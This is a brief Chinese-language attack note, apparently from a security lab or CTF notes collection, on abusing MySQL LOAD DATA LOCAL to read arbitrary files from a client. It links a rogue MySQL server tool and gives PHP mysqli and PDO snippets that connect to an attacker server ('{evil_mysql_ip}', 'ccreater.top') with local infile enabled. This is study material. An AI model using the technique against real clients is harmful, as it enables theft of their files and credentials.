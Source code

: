 # MySQL LOAD DATA 读取客户端任意文件

 https://github.com/Gifts/Rogue-MySql-Server 

要求:
allow_local_infile=true

## 客户端搭建

```php
<?php

$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, '{evil_mysql_ip}', 'root', '123456', 'test', 3667);
$p = mysqli_query($m, 'select 1;');
```



```php
$dbms='mysql';    
$host='ccreater.top';
$dbName='test';   
$user='root';
$pass='';  
$port='60011';
$dsn="$dbms:host=$host;dbname=$dbName;port=$port";

$options = [
    \PDO::MYSQL_ATTR_LOCAL_INFILE=>1
];
try {
    $dbh = new PDO($dsn, $user, $pass); 
    $dbh->query('SELECT 1');

} catch (PDOException $e) {
    die ("Error!: " . $e->getMessage() . "<br/>");
}
```

